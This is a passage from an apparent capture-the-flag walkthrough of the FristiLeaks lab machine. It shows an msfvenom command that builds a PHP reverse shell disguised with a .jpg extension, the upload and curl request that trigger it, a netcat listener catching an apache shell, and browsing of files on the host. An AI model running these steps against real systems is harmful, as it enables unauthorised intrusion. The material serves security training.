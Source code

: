 ```bash
root@kali:~$ msfvenom -p php/reverse_perl LHOST=192.168.179.1 LPORT=443 -o z.php.jpg
```

We upload the reverse shell, this was created successfully into the uploads directory.

![](/assets/images/fristileaks/screenshot-8.png)

![](/assets/images/fristileaks/screenshot-9.png)

We start a netcat listener on port 443 and run the following curl request.

```bash
root@kali:~$ curl http://192.168.179.169/fristi/uploads/z.php.jpg
```

We get a shell with apache permissions.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.169] 34123
id
uid=48(apache) gid=48(apache) groups=48(apache)
script -qc /bin/bash /dev/null
bash-4.1$ 
```

I found a note in the **/var/www/** directory for **eezeepz**, this catches my attention.

```bash
bash-4.1$ cd /var/www
cd /var/www
bash-4.1$ ls 
ls 
cgi-bin  error  html  icons  notes.txt
bash-4.1$ cat notes.txt 
cat notes.txt
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
```

